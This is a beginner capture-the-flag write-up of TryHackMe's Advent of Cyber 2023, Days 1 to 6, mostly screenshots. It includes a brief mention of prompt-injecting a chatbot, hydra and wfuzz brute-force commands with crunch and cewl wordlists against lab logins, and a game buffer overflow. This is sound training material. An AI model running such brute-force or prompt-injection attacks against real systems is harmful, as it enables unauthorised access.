 # [Advent of Cyber 5 [2023]](https://tryhackme.com/room/adventofcyber2023)

> Get started with Cyber Security in 24 Days - Learn the basics by doing a new, beginner friendly security challenge every day leading up to Christmas.

## Day 1: Chatbot, tell me, if you're really safe?

use some tricky question to inject the prompt

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/22a1a05a-dba6-46af-bd35-240f9a448b0c)

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/eb2fb2a0-9b35-4047-ba20-2b4f07e19faf)

Answer:

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/8a64872c-36cd-4aef-9be4-a58119889650)

## Day 2: O Data, All Ye Faithful

start the machine, you will see a browser of jupiter notebook and the instruction on that

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/e9940e00-769a-4e55-a072-0d21f92a4efc)

click on notebook `4_Capstone` we have a datasheet network_traffic.csv and a workbook, open it

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/3e3d2fd4-d920-4a3e-b060-65d69e04a5b2)

question 2

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/bc62e3e1-af24-46cc-896f-74bd11cd6758)

question 3

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/ee1a1853-6439-4389-88c2-33d1d6cf00d4)

question 4

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/c8c15eae-a62c-4e7e-9e8e-d10719f680b2)

if you got error 'df' not found, so click on "restart the kernel and run all cells"

Answer:

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/dfff452a-234b-4fd8-9758-07c90951ef46)

## Day 3: Hydra is Coming to Town

start the machine and access it on port 8000

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/17e6c66d-fe82-4005-8a46-26364f2d4ae7)

view source code, i see it post the pin to login.php or you can catch the request with burpsuite

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/eda3942b-76ce-44ce-b0b6-bc1cbdfae732)

generate the wordlist

```
crunch 3 3 0123456789ABCDEF -o 3digits.txt
```

crack the pass with hydra

```
hydra -l '' -P 3digits.txt -f 10.10.125.189 http-post-form "/login.php:pin=^PASS^:Access denied" -s 8000
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/a9fcf49c-e97b-44a0-966c-12cb80f6ba6b)

enter the pin

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/1dffafc4-68b0-47bc-ac3a-b7653f281989)

here you go

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/07b31e88-e14b-4709-b689-7eab2adc7417)

Answer:

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/f77ccd4b-f02f-4711-873b-95e79c952e06)

## Day 4: Baby, it's CeWLd outside

check the webpage

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/e6794c64-bd0d-4dc2-b29c-560ab0f1d4c7)

use the homepage to generate a wordlist that could potentially hold the key to the portal

```
cewl -d 2 -m 5 -w passwords.txt http://10.10.84.220 --with-numbers
```

use the Team Members page to generate a wordlist that could potentially contain the usernames of the employees

```
cewl -d 0 -m 5 -w usernames.txt http://10.10.84.220/team.php --lowercase
```

bruteforce the login portal using wfuzz

```
wfuzz -c -z file,usernames.txt -z file,passwords.txt --hs "Please enter the correct credentials" -u http://10.10.84.220/login.php -d "username=FUZZ&password=FUZ2Z"
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/c94d347f-4630-4812-9f0c-96510ba00dea)

log in to the portal using that credential

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/38b4ddc3-a587-4a85-83f0-b6d4272b948b)

Answer:

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/ed53c118-900c-4232-8bce-d5a34359bebc)

## Day 5: A Christmas DOScovery: Tapes of Yule-tide Past

start the machine, open the DosBox-X on the Desktop

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/53e63402-c9ee-4e22-b105-4bd30e37112e)

list the directory

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/5d69a474-53ec-4114-b553-70e09efa57e7)

navigate to backup tools folder to inspect the backup file

```
cd C:\TOOLS\BACKUP
BUMASTER.EXE C:\AC2023.BAK
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/eead6f3f-10cb-4afd-a3c1-174659f50d06)

check the troubleshoot at readme.txt

```
edit README.TXT
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/4f6939fd-745f-4c89-bbcb-59e6bee919c1)

Alt+F and navigate to Exit to exit the editor

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/5380b283-d24f-4641-960d-227a1a38356a)

edit the magic byte on the backup file

```
edit C:\AC2023.BAK
```

according previous troubleshoot, the magic bytes must be 41 43. these are hexadecimal values, so we need to convert them to ASCII first

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/cdd8f019-9373-4bb3-86c7-10d10a28db18)

change first 2 magic bytes to `AC` and Alt+F to Save the file

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/47518a90-2ed9-42ba-90e4-a019a4e8569a)

restore the backup again

```
BUMASTER.EXE C:\AC2023.BAK
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/4affd6b0-02e6-4451-a988-8a636168f5c5)

Answer:

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/0a9e1f14-0964-40d9-a67f-bd1ed643a751)

## Day 6: Memories of Christmas Past

if the coins variable had the in-memory value in the image below, how many coins would you have in the game?

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/52235c3f-ae87-4b24-a79d-b0f1f2db1c45)

reverse the hex values and convert it to decimal

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/c70ee8c4-a62b-4f01-a28e-a60f4e821a73)

go to the game

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/ad028d43-b7b8-43ad-b12f-053862feaaa3)

you will need to go out and in the pc to get coin more then 12

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/a47eaeeb-1ad4-4f64-99f8-0057d7b504ee)

go to the goblin and change a long name

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/b0e98797-bd0b-44b5-aaae-e5d7d1616c62)

we have lots of money, go to van frosty and buy the star

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/be7736e5-6de1-45f0-8532-1b5ea3f07ea6)

but we can buy the star, the game make it unwinable

so, change our name to buffer overflow all the game memory (total 60 characters) and fill all shop item values for int_item

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/9e17a843-e7da-438e-83e7-0c0d398c6274)

after that, we have all values from 1-d in our iventory (remember it's lowercase)

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/58952b83-5de7-4e9e-b234-7acf6eb1b9b2)

and go to the chrismas tree to get our flag

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/2613b0bd-3966-4ad2-a1c9-a276f6146f19)

Answer:

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/293c141f-60d0-413d-9b67-f80da293e6a1)

## Day 7: Tis the season for log chopping!















